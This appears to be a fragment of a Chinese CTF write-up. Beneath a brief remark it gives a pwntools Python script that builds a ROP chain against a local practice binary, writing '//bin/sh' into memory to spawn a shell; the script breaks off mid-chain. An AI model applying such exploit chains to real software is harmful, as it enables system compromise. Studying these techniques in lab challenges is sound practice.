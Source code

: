 ![image-20220316214251769](Self-help_Clown.assets/image-20220316214251769.png)

这个要做处理的就比较少, 只要把pack前加上struct就行

脚本为

##### Exploit

```python
from struct import pack
from pwn import*

p = lambda x : struct.pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 9f72ca947866add6ab0baafe740a536729f891f13847b44c4f3d7661c89a1be6
rebase_0 = lambda x : p(x + IMAGE_BASE_0)
o = process('./ropchain')

rop = 'a'*0x18
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
```
